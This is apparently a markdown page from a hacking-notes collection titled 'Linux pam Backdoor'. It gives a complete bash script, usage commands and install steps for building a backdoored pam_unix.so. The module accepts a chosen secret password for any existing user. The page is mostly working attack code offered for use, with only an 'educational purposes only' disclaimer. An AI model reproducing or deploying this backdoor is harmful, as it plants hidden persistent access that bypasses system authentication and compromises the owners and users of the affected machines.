 ```yaml
---
title: Linux pam Backdoor
tags:
  - Script
---
```

- *Credits to [zephrax](https://github.com/zephrax/linux-pam-backdoor)*

This script automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)

## Usage

To generate the backdoored pam_unix.so, just run:

```shell
./backdoor.sh -v 1.3.0 -p som3_s3cr4t_p455w0rd
```

You have to identify the PAM version installed on the system, to make sure the script will compile the right version. Otherwise you can break the whole system authentication.

After the execution of the script, the last step is to copy the generated pam_unix.so to the pam modules dir on the host.

```shell
cp pam_unix.so /usr/lib/security/
```

That's all.

After that, you can log-in to the system using an existing user, and the previously configured password.

Use this for educational purposes only. I am not responsible for the damage you might cause.

## Dependencies

Tested with Ubuntu 20.04:

- 1.1.8 and older: failed to compile
- 1.2.0: worked
- 1.3.0 to 1.4.0: worked

The following packages were used:

```shell
apt install -y autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```

## The backdoor

```sh
#!/bin/bash

OPTIND=1

PAM_VERSION=
PAM_FILE=
PASSWORD=

echo "Automatic PAM Backdoor"

function show_help {
	echo ""
	echo "Example usage: $0 -v 1.3.0 -p some_s3cr3t_p455word"
	echo "For a list of supported versions: https://github.com/linux-pam/linux-pam/releases"
}

while getopts ":h:?:p:v:" opt; do
    case "$opt" in
    h|\?)
        show_help
        exit 0
        ;;
    v)  PAM_VERSION="$OPTARG"
        ;;
    p)  PASSWORD="$OPTARG"
        ;;
    esac
done

shift $((OPTIND-1))

[ "$1" = "--" ] && shift

if [ -z $PAM_VERSION ]; then
	show_help
	exit 1
fi;

if [ -z $PASSWORD ]; then
	show_help
	exit 1
fi;

echo "PAM Version: $PAM_VERSION"
echo "Password: $PASSWORD"
echo ""

PAM_BASE_URL="https://github.com/linux-pam/linux-pam/archive"
PAM_DIR="linux-pam-${PAM_VERSION}"
PAM_FILE="v${PAM_VERSION}.tar.gz"
PATCH_DIR=`which patch`

if [ $? -ne 0 ]; then
	echo "Error: patch command not found. Exiting..."
	exit 1
fi
wget -c "${PAM_BASE_URL}/${PAM_FILE}"
if [[ $? -ne 0 ]]; then # did not work, trying the old format    
    PAM_DIR="linux-pam-Linux-PAM-${PAM_VERSION}"
    PAM_FILE="Linux-PAM-${PAM_VERSION}.tar.gz"
    wget -c "${PAM_BASE_URL}/${PAM_FILE}"
    if [[ $? -ne 0 ]]; then
        # older version need a _ instead of a .
        PAM_VERSION="$(echo $PAM_VERSION | tr '.' '_')"  
        PAM_DIR="linux-pam-Linux-PAM-${PAM_VERSION}"
        PAM_FILE="Linux-PAM-${PAM_VERSION}.tar.gz"
        wget -c "${PAM_BASE_URL}/${PAM_FILE}"
        if [[ $? -ne 0 ]]; then        
            echo "Failed to download"
            exit 1
        fi        
    fi
fi

tar xzf $PAM_FILE
cat backdoor.patch | sed -e "s/_PASSWORD_/${PASSWORD}/g" | patch -p1 -d $PAM_DIR
cd $PAM_DIR
# newer version need autogen to generate the configure script
if [[ ! -f "./configure" ]]; then 
    ./autogen.sh 
fi 
./configure
make
cp modules/pam_unix/.libs/pam_unix.so ../
cd ..
echo "Backdoor created."
echo "Now copy the generated ./pam_unix.so to the right directory (usually /lib/security/)"
echo ""

```